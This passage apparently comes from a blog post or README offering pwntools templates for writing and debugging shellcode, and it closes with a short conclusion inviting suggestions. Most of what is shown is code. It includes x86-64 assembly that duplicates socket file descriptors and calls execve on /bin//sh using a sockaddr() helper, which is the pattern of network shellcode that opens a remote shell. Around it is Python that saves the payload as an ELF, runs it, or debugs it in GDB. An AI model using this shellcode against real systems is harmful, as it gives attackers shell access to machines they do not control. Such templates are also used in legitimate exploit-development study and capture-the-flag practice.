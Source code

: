 ```python
        dec esi
        syscall
        jnz dup2_loop
execve:
	cdq
	push rdx
	mov rcx, 0x68732f2f6e69622f
	push rcx
	push rsp
	pop rdi
	mov al, 59
	syscall
''' % (sockaddr()))


dumpit(shellc)

if args.EXE:
  ELF.from_bytes(shellc).save('binary')

if args.RUN:
  p = run_shellcode(shellc)
  p.interactive()
elif args.GDB:
  p = debug_shellcode(shellc, gdbscript='''
    # set your pwndbg path here
    source ~/gdb.plugins/pwndbg/gdbinit.py
    context
  ''')
  p.interactive()
```


#### conclusion

Well I hope these templates will be useful to you,

and that they will ease & speed up your shellcode coding and debugging tasks..

If you have an idea to ameliorate them, you can propose them, and if I like the idea, it will be added to the template..



